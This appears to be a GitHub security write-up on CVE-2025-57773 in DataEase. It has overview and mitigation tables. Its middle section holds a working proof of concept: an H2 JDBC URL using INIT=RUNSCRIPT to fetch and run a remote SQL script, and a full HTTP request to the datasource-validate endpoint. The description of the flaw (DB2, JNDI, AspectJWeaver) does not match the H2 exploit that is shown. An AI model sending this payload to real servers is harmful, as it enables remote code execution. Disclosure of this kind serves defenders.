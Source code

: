 # 🛡 CVE-2025-57773 – Security Overview

CVE-2025-57773 is a **critical vulnerability** in **DataEase**, an open-source business intelligence and data visualization tool. It affects all versions **prior to 2.10.12**. The flaw allows attackers to exploit **JNDI injection**, leading to **deserialization attacks via AspectJWeaver**, resulting in **arbitrary file writes and potential remote code execution**. ⚠️💻

---

### 📌 General Information

| Field                  | Details                                 |
| ---------------------- | --------------------------------------- |
| 🆔 CVE ID              | CVE-2025-57773                          |
| ⚠️ Severity            | Critical                                |
| 🖥 Affected Software   | DataEase (BI & data visualization tool) |
| 📦 Vulnerable Versions | Prior to 2.10.12                        |
| 🛠 Type                | JNDI Injection / Deserialization / RCE  |

---

### 🛠 Technical Details

The vulnerability occurs due to **insufficient filtering of DB2 parameters**, which enables attackers to send malicious JNDI payloads.

| Step | Action                                                                       |
| ---- | ---------------------------------------------------------------------------- |
| 1️⃣  | Attacker injects JNDI payload via unfiltered DB2 parameters                  |
| 2️⃣  | AspectJWeaver component deserializes the payload                             |
| 3️⃣  | Requires `commons-collections` 4.x and `aspectjweaver-1.9.22.jar`            |
| 4️⃣  | Arbitrary file writes occur, potentially leading to remote code execution 💀 |

---

### ⚡ Impact

| Impact Type              | Description                             |
| ------------------------ | --------------------------------------- |
| 📝 File Manipulation     | Arbitrary file writes                   |
| 💻 Remote Code Execution | Possible through deserialization attack |

---

### 🛡 Mitigation

| Mitigation Step                 | Recommendation                                             |
| ------------------------------- | ---------------------------------------------------------- |
| ⬆️ Upgrade Software             | Update DataEase to version 2.10.12 or later                |
| 🧹 Input Validation / Filtering | Properly sanitize DB2 parameters to prevent JNDI injection |

---

Here, if the URL meets the criteria, the return value is the corresponding getJdbcUrl method. This is actually the getter method for the JdbcUrl parameter, which corresponds to the value of the JdbcUrl parameter we passed in. This method does not use H2's filtering logic, naturally bypassing the previous patch and returning our H2 JDBC URL. Finally, we pass "driver":"org.h2.Driver" to specify the selected driver. Then, getDriver will also retrieve the corresponding H2 driver, implementing the JDBC connection according to H2's logic.
The current payload is as follows. You can see that the payload here directly includes the filtered keywords INIT and RUNSCRIPT, but it still passes the verification:

```json
{
    "dataBase": "",
    "driver": "org.h2.Driver",
    "jdbcUrl": "jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:50025/poc.sql'",
    "urlType": "jdbcUrl",
    "sshType": "password",
    "extraParams": "",
    "username": "",
    "password": "",
    "host": "",
    "authMethod": "",
    "port": 0,
    "initialPoolSize": 5,
    "minPoolSize": 5,
    "maxPoolSize": 5,
    "queryTimeout": 30,
    "connectionType": "sid"
}
```

```
POST /de2api/datasource/validate HTTP/1.1
Host: 127.0.0.1:8100
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:139.0) Gecko/20100101
Firefox/139.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
Content-Length: 556
Origin: http://127.0.0.1:8100
Connection: close
Referer: http://127.0.0.1:8100/
Cookie: language=zh_CN; sessionId=29bd8318-3776-46a2-8a7e-d604dc4cdd33
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
{"id":"","name":"a","description":"","type":"oracle","configuration":"eyJkYXRhQmF
zZSI6IiIsImRyaXZlciI6Im9yZy5oMi5Ecml2ZXIiLCJqZGJjVXJsIjoiamRiYzpoMjptZW06dGVzdGRi
O1RSQUNFX0xFVkVMX1NZU1RFTV9PVVQ9MztJTklUPVJVTlNDUklQVCBGUk9NICdodHRwOi8vMTI3LjAuM
C4xOjUwMDI1L3BvYy5zcWwnIiwidXJsVHlwZSI6ImpkYmNVcmwiLCJzc2hUeXBlIjoicGFzc3dvcmQiLC
JleHRyYVBhcmFtcyI6IiIsInVzZXJuYW1lIjoiIiwicGFzc3dvcmQiOiIiLCJob3N0IjoiIiwiYXV0aE1
ldGhvZCI6IiIsInBvcnQiOjAsImluaXRpYWxQb29sU2l6ZSI6NSwibWluUG9vbFNpemUiOjUsIm1heFBv
b2xTaXplIjo1LCJxdWVyeVRpbWVvdXQiOjMwLCJjb25uZWN0aW9uVHlwZSI6InNpZCJ9"}
```
![CVE-2025-57773](https://github.com/user-attachments/assets/f4cab3f5-f493-480c-8116-e0365dcaa291)

---

Here’s a clear and actionable set of advice for **CVE-2025-57773**:

---

### 🔹 Immediate Actions

1. **Upgrade DataEase** ⬆️

   * Install version **2.10.12 or later** immediately. This is the only way to fully patch the vulnerability.

2. **Sanitize DB2 Parameters** 🧹

   * Ensure all database inputs are properly filtered and validated to prevent JNDI injection.

3. **Audit Dependencies** 📦

   * Confirm that `commons-collections` 4.x and `aspectjweaver-1.9.22.jar` are updated or replaced with safe versions if used elsewhere.

4. **Monitor Logs** 🔍

   * Check for unusual activity, especially deserialization attempts or file write anomalies.

5. **Limit Exposure** 🔒

   * Restrict external access to DataEase servers until the patch is applied.

---

### 🔹 Long-Term Recommendations

* **Regular Updates** 🔄 – Keep DataEase and all related libraries up to date.
* **Security Scanning** 🛡 – Run vulnerability scanners periodically to detect risky components.
* **Incident Response Plan** 📋 – Prepare procedures for quickly responding to potential exploits.
* **User Awareness** 👥 – Train admins and developers about injection attacks and safe coding practices.


---

### ⚠️ Disclaimer

The information provided about **CVE-2025-57773** is for **educational, awareness, and defensive purposes only**. It is intended to help administrators, developers, and security professionals **understand the vulnerability and protect their systems**.

**Do not use this information to exploit systems or conduct unauthorized activities.** Unauthorized access or attacks on systems without permission are **illegal and punishable by law**.

Always apply security updates, follow best practices, and operate within legal and ethical boundaries when handling vulnerabilities.

---
